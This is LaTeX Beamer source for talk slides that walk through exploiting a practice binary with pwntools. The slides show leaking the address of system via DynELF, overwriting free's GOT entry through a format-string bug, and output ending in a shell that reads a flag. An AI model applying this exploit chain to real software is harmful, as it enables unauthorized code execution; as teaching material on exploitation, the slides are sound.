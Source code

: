 \documentclass[t]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Leaking the address of \texttt{system}}
    \pause Idea:
    \begin{itemize}
            \pause \item Do what the dynamic linker would do!
            \pause \item We will use our memory leaker!
            \pause \item Do pointer chasing and hashtable lookups inside ELF files.
            \pause \item Pwntools have built-in support for this: DynELF!!
    \end{itemize}
    \begin{lstlisting}[language=python, style=custompy]
 e = ELF("./pwnable")
 d = DynELF(printf.leaker, elf=e)
 system = d.lookup("system", "libc.so")
    \end{lstlisting}
    \pause
    The variable \texttt{system} now contains the address of \texttt{system} inside the running process \texttt{./pwnable}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Overwriting the GOT entry of \texttt{free}}
    \pause Easy!!!
    \pause We will just use the format string exploit again!
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
 printf.write(e.got["free"], system)
 printf.execute_writes()
    \end{lstlisting}
    \pause
    What is left is just to call free, and we are done!
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
 r.sendline("quit") #Trigger, call system("/bin/sh")
 r.clean()
 r.interactive()
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \begin{lstlisting}[style=custompy]
[+] Opening connection to localhost on port 1337: Done
[*] Found format string offset: 7
[*] '/home/jonas/code/lightning-talk-33c3/pwnable'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
[+] Loading from '/home/jonas/code/lightning-talk-33c3/pwnable': 0xf77be930
[+] Resolving 'system' in 'libc.so': 0xf77be930
[*] Switching to interactive mode
$ whoami
pwnable
$ cat flag
omglol, hello 33C3!!!
$ 
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Final exploit}
    
\end{frame}

\begin{frame}[fragile]
    \frametitle{References}
\end{frame}
\end{document}
